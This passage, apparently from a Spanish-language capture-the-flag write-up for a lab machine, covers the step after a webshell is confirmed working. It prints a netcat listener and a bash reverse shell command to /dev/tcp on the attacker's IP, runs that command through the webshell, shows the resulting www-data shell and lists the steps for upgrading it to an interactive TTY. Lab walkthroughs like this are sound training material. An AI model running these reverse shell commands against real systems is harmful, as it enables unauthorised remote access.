 Excelente, funciona.

Intentemos mandarnos una **Reverse Shell**.

Abre un listener con **netcat**:
```bash
nc -nlvp 443
listening on [any] 443 ...
```

Usa la siguiente **Reverse Shell**:
```bash
bash -c 'bash -i >%26 /dev/tcp/Tu_IP/443 0>%261'
```

Y ejecútala en la **Webshell**:

<p align="center">
<img src="/assets/images/THL-writeup-uploader/Captura11.png">
</p>

Observa la **netcat**:
```bash
nc -nlvp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.100.160] 46926
bash: cannot set terminal process group (873): Inappropriate ioctl for device
bash: no job control in this shell
www-data@TheHackersLabs-Operator:/var/www/html/uploads/cloud_024ac6$ whoami
whoami
www-data
```
Estamos dentro.

Obtengamos una sesión interactiva para continuar:
```bash
# Paso 1:
script /dev/null -c bash

# Paso 2:
CTRL + Z

# Paso 3:
stty raw -echo; fg

# Paso 4:
reset -> xterm

# Paso 5:
export TERM=xterm && export SHELL=bash && stty rows 51 columns 189
```
